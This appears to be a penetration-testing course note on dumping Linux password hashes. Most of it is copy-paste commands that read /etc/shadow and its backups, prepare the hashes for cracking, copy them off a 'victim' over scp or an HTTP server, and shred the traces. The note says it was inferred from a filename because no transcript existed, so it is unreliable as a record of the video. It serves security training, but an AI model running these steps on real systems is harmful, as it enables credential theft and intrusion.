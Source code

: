 # 01 - Dumping Linux Password Hashes

Note: No transcript was provided. The following summary is inferred conservatively from the filename and folder (04-LinuxCredentialDumping) and reflects standard eJPT-relevant techniques for dumping Linux password hashes for offline cracking.

## What the video covers (Introduction / big picture)
- Where Linux stores account information (/etc/passwd) and password hashes (/etc/shadow).
- What privileges are needed to access /etc/shadow (root, sudo, or misconfigurations).
- Common places where shadow backups exist and may be readable.
- Safe, minimal steps to extract hashes and prepare them for cracking tools (John the Ripper, Hashcat).
- Quick identification of hash types (e.g., $6$ = SHA-512 crypt, $5$ = SHA-256 crypt, $1$ = MD5 crypt).

## Flow (ordered)
1. Confirm your current privileges (whoami, id, sudo -l).
2. Read /etc/passwd (world-readable) to map users to shells/UIDs.
3. Attempt to read /etc/shadow directly (root/sudo/misconfig).
4. If direct read fails, look for readable backups or misconfigs (/etc/shadow-, /var/backups/shadow.bak).
5. Optionally use getent shadow (requires root) to dump via NSS.
6. Prepare data for cracking:
   - For John: unshadow /etc/passwd and /etc/shadow into a combined file.
   - For Hashcat: extract username:hash pairs (or just hash field with --username).
7. Exfiltrate hashes safely for offline cracking.
8. Clean up artifacts on target if necessary.

## Tools highlighted
- Core utilities: cat, id, whoami, groups, sudo, ls, find, awk, cut, tee
- System databases: getent (passwd, shadow)
- Password prep: unshadow (part of John the Ripper)
- Transfer: scp, base64 + netcat/curl (alternatives if scp unavailable)
- Optional enumeration helpers: getcap (capabilities), stat (permissions)

## Typical command walkthrough (detailed, copy-paste friendly)

Identify yourself and basic context:
```bash
whoami
id
hostname -f 2>/dev/null || hostname
groups
sudo -l 2>/dev/null
```

Dump /etc/passwd (always readable):
```bash
cat /etc/passwd | tee /tmp/passwd
```

Try to read /etc/shadow directly:
```bash
# If you have sudo and your user password:
sudo cat /etc/shadow | tee /tmp/shadow

# If already root:
cat /etc/shadow | tee /tmp/shadow
```

If the direct read fails, hunt for readable backups/misconfigs:
```bash
# Quick known locations
ls -l /etc/shadow /etc/shadow- /var/backups/shadow* 2>/dev/null

# Find any shadow-like file that is world/group-readable
find / -maxdepth 3 -type f \( -name "shadow" -o -name "shadow-*" -o -name "shadow.*" \) -readable -exec ls -l {} \; 2>/dev/null

# If you find a readable candidate, save it
cat /etc/shadow- 2>/dev/null | tee /tmp/shadow
cat /var/backups/shadow.bak 2>/dev/null | tee /tmp/shadow
```

Alternate dump via NSS (requires root):
```bash
getent passwd | tee /tmp/passwd
getent shadow | tee /tmp/shadow
```

Quickly confirm hash types in shadow (look for $id$):
```bash
# Prints username + hash prefix ($1$, $5$, $6$)
awk -F: '($2 ~ /^\$/){split($2,a,"$"); print $1": $"a[2]"$"}' /tmp/shadow
# Common: $6$ = sha512crypt, $5$ = sha256crypt, $1$ = md5crypt
```

Prepare for John the Ripper (preferred for /etc/shadow):
```bash
# Combine passwd + shadow to John format
unshadow /tmp/passwd /tmp/shadow > /tmp/john_hashes.txt
```

Prepare for Hashcat (username:hash pairs or just the hash with --username):
```bash
# Extract "username:hash" pairs (fields 1 and 2)
cut -d: -f1,2 /tmp/shadow > /tmp/hashcat_shadow.txt

# Or, if you only want the hash field (and plan to use --username with the original file):
# cut -d: -f2 /tmp/shadow > /tmp/just_hashes.txt
```

Exfiltrate for offline cracking:
```bash
# Using scp (from your attack box; adjust user/host/path)
scp user@victim:/tmp/john_hashes.txt .
scp user@victim:/tmp/hashcat_shadow.txt .

# If scp not available, lightweight http server from victim:
# On victim:
python3 -m http.server 8080 --directory /tmp
# On attacker:
curl -O http://victim:8080/john_hashes.txt
curl -O http://victim:8080/hashcat_shadow.txt
```

Quick cleanup (optional, on the victim):
```bash
shred -u /tmp/passwd /tmp/shadow /tmp/john_hashes.txt /tmp/hashcat_shadow.txt 2>/dev/null || rm -f /tmp/passwd /tmp/shadow /tmp/john_hashes.txt /tmp/hashcat_shadow.txt
```

Capability and SUID checks (optional, if you cannot read shadow directly):
```bash
# Look for binaries with cap_dac_read_search (can read any file if present)
getcap -r / 2>/dev/null | grep cap_dac_read_search

# Look for interesting SUID binaries that could help escalate to read shadow (use GTFOBins techniques responsibly)
find / -perm -4000 -type f -exec ls -l {} \; 2>/dev/null
```

## Practical tips
- Reading /etc/passwd is harmless; /etc/shadow requires root, sudo, or a misconfiguration. Avoid modifying system files.
- Check for backups: /etc/shadow-, /var/backups/shadow.bak are common; sometimes admins leave world-readable copies by mistake.
- In /etc/shadow:
  - $6$ indicates SHA-512 crypt (hashcat mode 1800).
  - $5$ indicates SHA-256 crypt (hashcat mode 7400).
  - $1$ indicates MD5 crypt (hashcat mode 500).
  - An entry starting with ! or * means the account is locked or has no login password.
- Prefer unshadow for John; it automatically pairs GECOS and other metadata from /etc/passwd.
- For Hashcat, use --username if you include the username field (username:hash). Otherwise supply just the hash field.
- Always exfiltrate and crack offline; do not attempt to brute-force on the target.
- Log what you took and from where to aid reporting and cleanup.

## Minimal cheat sheet (one-screen flow)
```bash
# 1) Baseline
whoami; id; sudo -l 2>/dev/null

# 2) Grab passwd
cat /etc/passwd | tee /tmp/passwd

# 3) Try shadow
sudo cat /etc/shadow | tee /tmp/shadow || cat /etc/shadow 2>/dev/null | tee /tmp/shadow

# 4) If not, check backups
ls -l /etc/shadow* /var/backups/shadow* 2>/dev/null
cat /etc/shadow- 2>/dev/null | tee /tmp/shadow
cat /var/backups/shadow.bak 2>/dev/null | tee /tmp/shadow

# 5) Prep for cracking
unshadow /tmp/passwd /tmp/shadow > /tmp/john_hashes.txt
cut -d: -f1,2 /tmp/shadow > /tmp/hashcat_shadow.txt

# 6) Exfil
# From attacker:
# scp user@victim:/tmp/john_hashes.txt .
# scp user@victim:/tmp/hashcat_shadow.txt .
```

## Summary
- Linux stores account metadata in /etc/passwd and password hashes in /etc/shadow. Reading /etc/shadow requires root/sudo or exploiting misconfigurations/backups.
- Practical dumping steps: enumerate privileges, read /etc/passwd, attempt /etc/shadow, fall back to common backups, and prepare outputs for John (unshadow) or Hashcat (username:hash or hash-only).
- Recognize hash prefixes ($6$, $5$, $1$) to choose cracking modes later.
- Exfiltrate and crack offline; keep operations minimal and clean up artifacts where appropriate.